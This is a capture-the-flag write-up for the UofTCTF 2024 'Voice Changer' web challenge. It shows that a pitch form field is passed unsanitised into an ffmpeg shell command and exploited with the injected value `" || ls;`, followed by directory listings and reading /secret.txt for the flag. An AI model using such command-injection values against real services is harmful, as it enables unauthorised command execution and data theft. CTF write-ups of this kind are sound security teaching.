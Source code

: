 ```yaml
---
title: Voice Changer
date: 2024-01-15
tags: 
- web
- command injection
- author-hartmannsyg
categories: UofTCTF 2024
---
```


solved by {% person hartmannsyg %}

We have a website where we can record our voice, set the pitch and upload it:
<img src="/static/UofTCTF2024/voice_changer.png" alt="" width="500"/>

When we upload a file, we make the following request (I viewed this in Burpsuite):

{% ccb lang:http %}
POST /upload HTTP/1.1
Host: uoftctf-voice-changer.chals.io
Content-Length: 3470
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXBAW2BbbaaD0A1NO
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://uoftctf-voice-changer.chals.io
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://uoftctf-voice-changer.chals.io/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
Connection: close

------WebKitFormBoundaryXBAW2BbbaaD0A1NO
Content-Disposition: form-data; name="pitch"

1
------WebKitFormBoundaryXBAW2BbbaaD0A1NO
Content-Disposition: form-data; name="input-file"; filename="recording.ogg"
Content-Type: audio/ogg

<audio binary>
{% endccb %}

It responds with:

{% ccb lang:bash wrapped:true terminal:true %}
$ ffmpeg -i "/app/upload/c4d99020-b367-11ee-a08f-779926f969c1.ogg" -y -af "asetrate=44100*1,aresample=44100,atempo=1/1" "/app/output/c4d99020-b367-11ee-a08f-779926f969c1.ogg"

ffmpeg version 6.1 Copyright (c) 2000-2023 the FFmpeg developers
  built with gcc 13.2.1 (Alpine 13.2.1_git20231014) 20231014
  ... a bunch more stuff
{% endccb %}

when we edit the pitch to something else, we see that the pitch gets reflected into the command. So if we set pitch to be `amogus`, it will run:

{% ccb html:true wrapped:true terminal:true %}
$ ffmpeg -i <span class="string">"/app/upload/8e958b80-b368-11ee-a08f-779926f969c1.ogg"</span> -y -af <span class="string">"asetrate=44100*<span class="number">amogus</span>,aresample=44100,atempo=1/<span class="number">amogus</span>"</span> <span class="string">"/app/output/8e958b80-b368-11ee-a08f-779926f969c1.ogg"</span>
{% endccb %}

So if we set pitch to be `" || ls;`

{% ccb html:true wrapped:true terminal:true %}
$ ffmpeg -i <span class="string">"/app/upload/8e958b80-b368-11ee-a08f-779926f969c1.ogg"</span> -y -af <span class="string">"asetrate=44100*<span class="code-segment-highlight">"</span></span><span class="code-segment-highlight"> || <span class="built_in">ls</span>;</span>,aresample=44100,atempo=1/<span class="string"><span class="code-segment-highlight">" || ls;</span>"</span> <span class="string">"/app/output/8e958b80-b368-11ee-a08f-779926f969c1.ogg"</span>

index.js
node_modules
output
package-lock.json
package.json
public
upload
yarn.

ffmpeg version 6.1 Copyright (c) 2000-2023 the FFmpeg developers
  ... a bunch more ffmpeg stuff
{% endccb %}

Nice, we basically got shell, now we just gotta find the flag, though its not in it's directory. Let's try `ls -l /`:

{% ccb terminal:true highlight:14 %}
drwxr-xr-x    1 root     root          4096 Jan 13 05:35 app
drwxr-xr-x    1 root     root          4096 Dec 11 18:37 bin
drwxr-xr-x    5 root     root           360 Jan 14 03:28 dev
drwxr-xr-x    1 root     root          4096 Jan 14 03:28 etc
drwxr-xr-x    1 root     root          4096 Jan 13 05:35 home
drwxr-xr-x    1 root     root          4096 Jan 10 21:25 lib
drwxr-xr-x    5 root     root          4096 Dec  7 09:43 media
drwxr-xr-x    2 root     root          4096 Dec  7 09:43 mnt
drwxr-xr-x    1 root     root          4096 Dec 11 18:37 opt
dr-xr-xr-x  391 nobody   nobody           0 Jan 14 03:28 proc
drwx------    1 root     root          4096 Dec 11 18:37 root
drwxr-xr-x    2 root     root          4096 Dec  7 09:43 run
drwxr-xr-x    1 root     root          4096 Jan 10 21:24 sbin
-rwxr-xr-x    1 root     root            31 Dec 31 04:31 secret.txt
drwxr-xr-x    2 root     root          4096 Dec  7 09:43 srv
dr-xr-xr-x   13 nobody   nobody           0 Jan 14 03:28 sys
drwxrwxrwt    1 root     root          4096 Dec 11 18:37 tmp
drwxr-xr-x    1 root     root          4096 Jan 10 21:25 usr
drwxr-xr-x    1 root     root          4096 Dec  7 09:43 var
{% endccb %}

now if we `cat /secret.txt`:

{% ccb terminal:true %}
uoftctf{Y0UR Pitch IS 70O H!9H}
{% endccb %}
